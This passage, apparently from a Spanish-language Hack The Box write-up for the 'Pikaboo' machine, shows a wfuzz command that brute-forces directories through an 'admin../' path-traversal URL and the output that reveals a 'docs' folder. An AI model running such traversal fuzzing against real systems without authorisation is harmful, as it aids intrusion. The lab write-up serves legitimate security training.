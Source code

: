 ![](/assets/images/htb-writeup-pikaboo/redirect.jpg)

Lo que podemos intentar es hacer fuzzing.

```bash

❯ wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.249/admin../admin_staging/FUZZ --hc=404,401 -t 200
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.249/admin../admin_staging/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                    
=====================================================================

000000007:   200        882 L    2267 W     40554 Ch    "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                                                          
000000090:   301        9 L      28 W       322 Ch      "docs"       <----                                                                                                                              
000000001:   200        882 L    2267 W     40554 Ch    "# directory-list-2.3-medium.txt"                                                                                                          
000000014:   200        882 L    2267 W     40554 Ch    "http://10.10.10.249/admin../admin_staging/"                                                                                               
000000003:   200        882 L    2267 W     40554 Ch    "# Copyright 2007 James Fisher"                                                                                                            
000000004:   200        882 L    2267 W     40554 Ch    "#"                                                                                                                                        
000000002:   200        882 L    2267 W     40554 Ch    "#"                                                                                                                                        
000000005:   200        882 L    2267 W     40554 Ch    "# This work is licensed under the Creative Commons"                                                                                       
```